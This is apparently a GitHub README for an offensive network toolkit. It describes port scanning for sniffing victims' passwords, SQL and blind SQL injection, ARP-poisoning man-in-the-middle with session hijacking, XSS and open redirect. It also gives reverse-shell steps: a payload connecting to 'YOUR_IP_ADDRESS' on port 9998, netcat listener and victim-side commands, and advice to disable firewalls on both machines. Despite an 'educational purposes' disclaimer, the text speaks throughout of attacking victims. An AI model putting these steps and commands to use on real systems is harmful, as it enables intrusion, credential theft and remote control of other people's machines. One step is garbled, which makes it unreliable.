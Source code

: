 # CustomNetworkTool
❗ Do not use it for malicious purposes, it's only for educational purposes.
 Stay in Legal !!!!!

 Unix:
Usage: git clone https://github.com/YusufMarall/CustomNetworkTool.git &&
cd NetworkTool &&
python3 CNtool.py


![Ekran görüntüsü 2024-06-17 155733](https://github.com/YusufMarall/CustomNetworkTool/assets/114530242/eb208ca9-b528-49f3-8ac4-adccd54fd553)


## Remarks and Instructions for Use

This tool is designed to perform various network and security tests. Below you can find each mode and instructions for use.

### if(r==1)
####Scanning Port Similar to  Nmap
I wrote a module similar to Nmap, but faster than Nmap because I only scan specific ports. This works like this:

- If one of the specific ports I scan is open, I can use a network analyzer like Wireshark to monitor the traffic coming through that port. For example, when port 8080 (HTTP) is open, if our victim logs into an HTTP site through this port, I can see sensitive information such as his password.

### if(r==2)
#### Showing Website Content and SQL Injection Attempt
1. **Show Website Content**:
   - Shows the content of the website. If we know JavaScript, we can manipulate this content very easily.

2. **SQL Injection Attempt**:
   - Attempts SQL injection by sending our payloads with specific codes to the URL. If there is a database, this attack can be successful.

### if(r==3)
#### Man-in-the-Middle (MitM) Attack
1. **Man-in-the-Middle (MitM) Attack**:
   - ARP (Address Resolution Protocol): Maps a MAC address to an IP address.
   - ARP Poisoning: A cyber attack technique commonly used in local area networks. Using ARP poisoning, it can monitor and modify the communication between two devices without interrupting it. In this case, it can monitor and modify all traffic between the gateway (router) and the target device. For example, by monitoring the traffic between the gateway and the user, an attacker can intercept sensitive information (passwords, credit card information, etc.) sent by the user.

2. **Data Capture**:
   - With ARP poisoning, the attacker can redirect all network traffic of the target device to his own device and analyze this traffic. In this way, the attacker can capture and record all data passing through the target device.

3. **Session Hijacking**:
   - It can hijack sessions by capturing session cookies. This can be used to take over a user's session and gain unauthorized access to the user's accounts.

4. **Modifying Network Traffic**:
   - Can modify data packets between two devices. For example, it can modify web pages, redirect users to fake websites or inject malware into network traffic.

### if(r==4)
Blind sql injection does injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the application's response and learns the database name
### if(r==5)
#### Reverse Shell and Netcat Usage
Reverse shell code creates payload and works like a backdoor. With Netcat, we can attack file uploading, eavesdropping, etc.

*Step 1: Make sure that the `payload.py` file on the victim machine is using the correct IP address and port. Check that your IP address is correct and the port you are listening on is 9998:
```python
s.connect(('YOUR_IP_ADDRESS', 9998)) # Replace YOUR_IP_ADDRESS with the IP address of your own machine
*Step 2: Set the Listening Machine Correctly
Make sure to start listening with netcat on the listening machine. Make sure you are listening using the correct port:
Linux:
nc -lvp 9998
*Step 3: Check Firewall and Firewalls
Firewalls or network firewalls on the listening machine and the victim machine may be blocking the connection. Try temporarily turning off the firewall on both machines:
Linux:
sudo ufw disable
Windows:ping YOUR_IP_ADDRESS
Step 4: Check Network Connectivity
Make sure that the network connection from the victim machine to the listening machine is working. Check the connection by pinging from the victim machine to the listening machine:
Windows:
ping YOUR_IP_ADDRESS
Linux:
ping YOUR_IP_ADDRESS
Step 5: Perform a Simple Connectivity Test with Netcat
Start listening with netcat on the listening machine:
Linux:
nc -lvp 9998
Try to establish a connection using netcat on the victim machine:
Linux:
nc YOUR_IP_ADDRESS 9998.

### if r==6
###xss Cross-site scripting attack
###Open redirect vulnerability:
Explicit redirection vulnerabilities occur when an application insecurely incorporates user-controllable data into a redirection destination.
An attacker can generate a URL within the application that causes a redirection to an arbitrary external domain.
Hint===?redirect={payload}
